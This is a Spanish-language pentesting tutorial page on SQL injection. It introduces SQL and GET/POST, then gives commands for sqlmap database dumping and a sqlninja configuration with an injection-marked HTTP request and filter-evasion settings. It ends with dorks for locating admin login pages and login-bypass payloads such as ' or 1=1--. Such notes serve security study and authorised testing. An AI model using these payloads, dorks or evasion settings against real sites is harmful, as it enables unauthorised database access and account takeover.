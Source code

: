 # SQL

SQL (por sus siglas en inglés Structured Query Language; en español lenguaje de consulta estructurada) es un lenguaje específico del dominio que da acceso a un sistema de gestión de bases de datos relacionales que permite especificar diversos tipos de operaciones en ellos.

**Referencia**: [Wikipedia](https://es.wikipedia.org/wiki/SQL)

## Metodos GET y POST

Hay dos métodos de subir la información mediante las variables superglobales **GET** y **POST**.

Es importante recordar que **$_GET** y **$_POST** son arreglos que tienen posiciones asociativas, es decir, cada posición en el arreglo tiene un nombre, y ese nombre es el mismo que tiene cada campo del formulario.

* **GET**: en link de la página web se aprecia lo que se sube al formulario.
* **POST**: no se aprecia en el link lo que se le sube al formulario.

# SQLMap

SQLmap es una herramienta desarrollada en Python para realizar SQL Injection de forma automatizada. Con esto evitamos en cierta forma el trabajo de crear bypass o ingresar códigos sql para explotar los datos

#### Inslar SQLMap

```bash
sudo apt-get install python
git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

#### Iniciar SQLMap
```
python sqlmap.py -u http://localhost/pruebas/inyecciones.php?id=1
```

#### Comandos basicos:

* **--dbs** Nombre de Base de Datos.
* **--columns** Obtener Columnas.
* **--tables** Obtener Tablas.
* **--dmg** Volcar los datos de la tabla en particular, muy similar a la función que cumple el comando mysqldump.
* **--dump** Volcar los datos de la tabla en particular.

# SQLNinja

Sqlninja es una herramienta destinada a explotar las vulnerabilidades de inyección SQL en una aplicación web que utiliza Microsoft SQL Server como su back-end.

Su objetivo principal es proporcionar un acceso remoto en el servidor de base de datos vulnerable, incluso en un entorno muy hostil. Los verificadores de penetración deberían usarlo para ayudar y automatizar el proceso de hacerse cargo de un Servidor de base de datos cuando se descubrió una vulnerabilidad de inyección SQL.

**Referencia:** [Kali - SQLNinja](https://tools.kali.org/vulnerability-analysis/sqlninja) [Web - SQLNinja](http://sqlninja.sourceforge.net/)

#### Configurando SQLNinja

1. Ir a la carpeta donde está SQLNinja y ubicar el archivo sqlninja.conf
2. En la *linea 38* hay un ejemplo, se remplaza ese texto con el Request de Vega.
```sqlninja.conf
--httprequest_start-- 
GET https://172.16.223.128/checkid.asp?id=1;__SQL2INJECT__ HTTP/1.0
Host: 172.16.223.128
User-Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.7.13) Gecko/20060418 Firefox/1.0.8
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*
Accept-Language: en-us,en;q=0.7,it;q=0.3
Accept-Charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Content-Type: application/x-www-form-urlencoded
Connection: close
--httprequest_end--
```
3. Colocar "__SQL2INJECT__" en el **Parametro** a inyectar.
4. Configurar los parametros de seguridad a partir de la **línea 105**
```sqlninja.conf
# Evasion techniques to be used. Possible choices are:
1 - Query hex-encoding
2 - Comments as separators
# 3 - Random case
4 - Random URI encoding
# All techniques can be combined, so the following is legal:
# evasion = 1234
# However, keep in mind that using too many techniques at once leads to very
# long queries, that might create problems when using GET. Default: no evasion
evasion = 124
``` 

**TIPS:**
* Para metodos **POST** debemos de usar el *https://* y borrar la linea de *Content Length*.

#### Ejecutar
```bash
sqlninja -m <modo> -f <directorio sqlninja.conf>
```

## Utilidades

**Ejemplos de Dorks:**

* inurl:adminlogin.aspx
* inurl:admin/index.php
* inurl:administrator.php
* inurl:administrator.asp
* inurl:login.asp
* inurl:login.aspx
* inurl:login.php
* inurl:admin/index.php
* inurl:adminlogin.aspx

**Algunas sentencias de ataque de vectores de mysql:**
```
User: 1'or'1'='1
Password: ' or 1=1--
```
**Ejemplo más utilizado**
```
http://localhost/pruebas/inyecciones.php?id=1
```

